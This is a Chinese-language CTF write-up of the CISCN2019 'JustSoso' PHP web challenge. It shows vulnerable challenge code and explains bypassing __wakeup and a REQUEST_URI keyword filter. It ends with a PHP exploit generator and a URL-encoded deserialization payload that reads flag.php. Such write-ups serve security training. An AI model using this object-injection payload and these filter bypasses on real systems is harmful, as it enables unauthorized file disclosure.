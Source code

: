 ```yaml
---
layout: post
title: CISCN2019 JustSoso
date: 2021-08-02 16:37 +0800
last_modified_at: 2021-08-02 16:37:00 +0800
tags: [CTF,Web,Write-up]
toc:  true
---
```

关键词：php，绕过，反序列化

这道题虽然看上去是一道反序列化题目，但是其实我个人感觉占比更大的是php的一些小trick。比如反序列化绕过__wakeup魔术方法，`///`绕过`$\_SERVER['REQUEST_URI']`等。buu上并没有题目复现，但是赛后放了源码，根据源码在本地搭建复现一波。

原题思路是，通过php伪协议读取index.php和hint.php，最终用反序列化获取到flag.php。

index.php

```
<?php
error_reporting(0);
$file = $_GET["file"]; 
$payload = $_GET["payload"];
if(!isset($file)){
    echo 'Missing parameter'.'<br>';
}
if(preg_match("/flag/",$file)){
    die('hack attacked!!!');
}
@include($file);
if(isset($payload)){  
    $url = parse_url($_SERVER['REQUEST_URI']);
    parse_str($url['query'],$query);
    foreach($query as $value){
        if (preg_match("/flag/",$value)) { 
            die('stop hacking!');
            exit();
        }
    }
    $payload = unserialize($payload);
}else{ 
   echo "Missing parameters"; 
}

?>
```

hint.php

```
<?php  
class Handle{
    private $handle;
    public function __wakeup(){
        foreach(get_object_vars($this) as $k => $v) {
            $this->$k = null;
        }
        echo "Waking up\n";
    }
    public function __construct($handle) { 
        $this->handle = $handle; 
    } 
    public function __destruct(){
        $this->handle->getFlag();
    }
}

class Flag{
    public $file;
    public $token;
    public $token_flag;
 
    function __construct($file){
        $this->file = $file;
        $this->token_flag = $this->token = md5(rand(1,10000));
    }

    public function getFlag(){
        $this->token_flag = md5(rand(1,10000));
        if($this->token === $this->token_flag)
        {
            if(isset($this->file)){
                echo @highlight_file($this->file,true); 
            }  
        }
}
}
?>
```

index.php中存在一个文件包含漏洞，而文件本身并不涉及反序列化所需的类，而hint.php中有两个类，其中Flag类的getFlag函数可以被利用获取flag。因而大致思路为通过index.php包含hint.php，再构造一个Handle类在析构的时候调用getFlag函数完成读取。

不过反序列化也只是这道题的基础，这道题主要难点在于去绕过`__wakeup`魔术方法和绕过`$_SERVER['REQUEST_URI']`。

`$_SERVER['REQUEST_URI']`绕过方法大致为在域名后加上`///`，在不妨碍http解析的情况下使该函数在判断的时候发生错误，返回false而不是应该返回的具体path。如此绕过对关键字flag的检测。（需要注意的是，这个小trick仅适用于php <= 5.4.7）。

对于`__wakeup`魔术方法的绕过为在输入反序列化字符串时增加反序列化对象数量，使得对象数量与实际对象数量不符，会产生报错从而不触发`__wakeup`魔术方法。

最后给出exp：

```
<?php  
class Handle{ 
    private $handle;  
    public function __construct($handle) { 
        $this->handle = $handle; 
    }
}

class Flag{
    public $file;
    public $token;
    public $token_flag;
    
    function __construct($file){
        $this->file = $file;
        $this->token_flag = md5(rand(1,10000));
        $this->token = &$this->token_flag;
    }
}

$a = new Flag('flag.php');
$b = new Handle($a);
echo urlencode(serialize($b));
?>
```

以及最终的payload：

```
///?file=hint.php&payload=O%3A6%3A%22Handle%22%3A2%3A%7Bs%3A14%3A%22%00Handle%00handle%22%3BO%3A4%3A%22Flag%22%3A3%3A%7Bs%3A4%3A%22file%22%3Bs%3A8%3A%22flag.php%22%3Bs%3A5%3A%22token%22%3Bs%3A32%3A%224bbbe6cb5982b9110413c40f3cce680b%22%3Bs%3A10%3A%22token_flag%22%3BR%3A4%3B%7D%7D
```



